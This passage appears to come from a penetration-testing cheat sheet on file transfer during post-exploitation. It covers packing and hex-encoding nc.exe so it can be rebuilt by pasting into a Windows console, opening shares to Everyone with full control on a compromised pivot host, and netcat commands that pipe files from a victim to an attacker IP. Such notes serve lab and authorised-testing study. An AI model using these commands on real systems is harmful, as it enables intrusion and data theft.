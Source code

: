 {% code overflow="wrap" %}
```bash
upx -9 nc.exe # compress nc.exe to make it smaller 
exe2hex -x nc.exe -p nc.cmd
# COPY ALL THE CONTENT OF nc.cmd AND PASTE IT INTO THE WINDOWS CONSOLE, IT WILL REBUILD IT TO A FUNCTIONAL NETCAT

# IF THERE IS RDP CONNECTION, WE CAN USE THE WEB BROWSER TO RETRIEVE FILES SERVED ON PORT 80

#Ctrl+C/Ctrl+V
Do not understimate copy/paste for transferring files
```
{% endcode %}

### cmd net share

Usually for transferring files from Kali to Windows I’ll use Impacket’s handy smbserver.py. But what if I need to transfer files from a compromised pivot Windows host to another host on the LAN which cannot reach Kali?&#x20;

```c
# We can share folders on Windows on cmd as follows
C:\>net share r_bridge=C:\Lab19 /Grant:Everyone,FULL # share name is r_bridge
# To grant everyone read/write permissions you may need to add
icacls "C:\Path\to\dir>" /t /grant Everyone:FI
```

Remember file-sharing works two way; if I can’t share out host A’s folder so host B can access it, I can always share out host B’s folder so host A can access it. If the shared folder has read/write for Everyone it makes no difference whose folder it is

```bash
# UPDATE***************
# On Windows XP the commands would be
C:\> net share r_bridge=C:\Path\to\dir
C:\> cacls "C:\Path\to\dir>" /T /G Everyone:F
# On the requesting host, you may get an Access Denied in some cases 
# if  you need to specify a password. If you have credentials you can do
net use \\server\share /user:domain\username password
# You should see “command completed successfully” if successful.
# Then you can check if the share is available
net view \\server
# Finally on the file server hosting the share, you can delete with
net share /delete
```

## Linux

### Netcat

```bash
# WITH NETCAT (FROM THE ATTACKER TO THE VICTIM)
nc $ATTACKER_IP $PORT > file #(VICTIM)
nc -lvnp $PORT < file # (ATTACKER)
# ALTERNATIVE
host@victim$ cat $FILE | nc 10.10.14.18 443
host@kali$ nc -lnvp 443 > $FILE
```
